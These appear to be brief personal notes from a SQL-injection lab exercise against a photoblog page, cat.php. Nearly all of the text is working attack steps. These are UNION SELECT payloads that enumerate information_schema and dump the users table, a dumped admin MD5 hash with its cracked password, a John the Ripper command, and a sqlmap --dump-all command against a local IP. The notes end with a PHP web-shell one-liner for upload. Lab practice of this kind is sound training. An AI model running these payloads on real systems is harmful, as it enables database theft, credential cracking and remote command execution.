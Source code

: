 cat.php is vulnerable to injection cat.php?id=1'
cat.php?id=1 ORDER BY 5
cat.php?id=1 UNION SELECT 1,2,3,4
We get picture '2' returned, so we can use 2 field to inject current_user(), database(), @@version etc.
cat.php?id=1 UNION SELECT 1,current_user(),3,4
p.s. the title uses 2.  3 is used for the image path, but the alt is 2 which gets rendered since no such image exists.

meta tables in MySQL >= 5.
SELECT table_name FROM information_schema.tables
cat.php?id=1 UNION SELECT 1,table_name,3,4 FROM information_schema.tables
column_name FROM information_schema.columns
UNION SELECT 1,column_name,3,4 FROM information_schema.columns

cat.php?id=1 UNION SELECT 1,table_name,column_name,4 FROM information_schema.columns
OR
UNION SELECT 1,concat(table_name,':',column_name),3,4 FROM information_schema.columns
Shows us users table with login and password.

cat.php?id=1 UNION SELECT 1,concat(login,':',password),3,4 FROM users
admin:8efe310f9ab3efeae8d410a8e0166eb2
It's hashed.
john passwd --format=raw-md5 --wordlist=/foo --rules
admin:P4ssw0rd

OR just use SQLMAP LOL
sqlmap -u http://192.168.1.94/cat.php?id=1 -D photoblog --dump-all --batch

Now we can login to the site and upload files with embedded php
<?php system($_GET['c']); ?>
or php-reverse-shell.php3
